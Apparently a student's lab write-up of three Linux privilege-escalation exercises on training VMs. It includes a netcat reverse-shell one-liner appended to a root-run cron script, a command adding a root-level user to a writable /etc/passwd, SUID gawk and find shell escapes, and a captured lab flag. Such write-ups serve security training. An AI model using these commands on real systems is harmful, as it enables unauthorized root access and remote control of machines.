 
###### 18.3.5.2
On the target VM #1, use an appropriate privilege escalation technique to gain access to root and read the flag.Scheduling is all that matters.  
  
  
No cron jobs listed.  
  
Looked to see what services are running:
```bash
└─$ ps -aux  
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND  
root           1  0.0  0.0   2416   576 ?        Ss   18:58   0:00 /bin/sh -c chmod 400 /root/flag.txt && chown root /root/flag.txt && /usr/sbin/sshd   && cron   && tail -f /var/log/cron.log
```

Tried finding the filename for that command... could only find name of the process:
```bash
└─$ ps -p 1 -o comm=  
	sh
```

Tried to find a .sh file which _could_ fit this purpose:
```bash
find / -user root -perm /222 -name *.sh 2>/dev/null  
/var/archives/archive.sh  
...  
  
└─$ cat /var/archives/archive.sh  
#!/bin/bash  
  
TIMESTAMP=$(date + "%T")  
echo "$TIMESTAMP running the archiver"  
#cp -rf /home/kali /var/backups/kali  
cp -rf /home/student/ /var/backups/student/
```

Looked extremely similar to the class mats, so figured why not.  
Added one-liner for a reverse shell:
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> /var/archives/archive.sh
```
	Which worked.  woot



###### 18.3.5.3
On the target VM #2, use another appropriate privilege escalation technique to gain access to root and read the flag. Take a closer look at file permissions.  
  
So damn easy
```bash
┌──(student㉿982662cf759a)-[~]  
└─$ ls -lah /etc/passwd  
-rw-rw-rw- 1 root root 1.4K Jan  9 19:33 /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ openssl passwd pwnd  
nRpOSeBTiWBf6  
┌──(student㉿982662cf759a)-[~]  
└─$ echo "root2:nRpOSeBTiWBf6:0:0:root:/root:/bin/bash" >> /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ su root2  
Password:   
┌──(root💀982662cf759a)-[/home/student]
```



###### 18.3.5.4
Again, use an appropriate privilege escalation technique to gain access to root and read the flag on the target VM #3.Binary flags and custom shell are what to look for.  
  
Also so damn easy..... like, I literally laughed.  
  
  
Searched for binaries that had SUID or GUID bits set:
```bash
student@99df13b19ef1:~$ find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000  
/bin/umount  
/bin/su  
/bin/mount  
/usr/bin/passwd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/gpasswd  
/usr/bin/find  
/usr/bin/chfn  
/usr/bin/gawk  
/usr/bin/vim.basic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
find: unknown predicate `-o-'
```

Took a chance on gawk, though I think any one would've likely worked.  
  
Used [https://gtfobins.github.io/](https://gtfobins.github.io/) and searched for **gawk**. Used shell cmd vuln:
```bash
student@99df13b19ef1:~$ gawk 'BEGIN {system("/bin/sh")}'  
# id  
uid=1000(student) gid=1000(student) euid=0(root) groups=1000(student)  
# cat /root/flag.txt  
Great job! You found me.  
Here is your flag:  
  
OS{e63003c582419ac5916f6def043fb033}
```
	*Notice the EUID

(Also works for [**awk**](awk.md))

[**find**](find.md) also works:
```bash
find . -exec /bin/sh \; -quit
```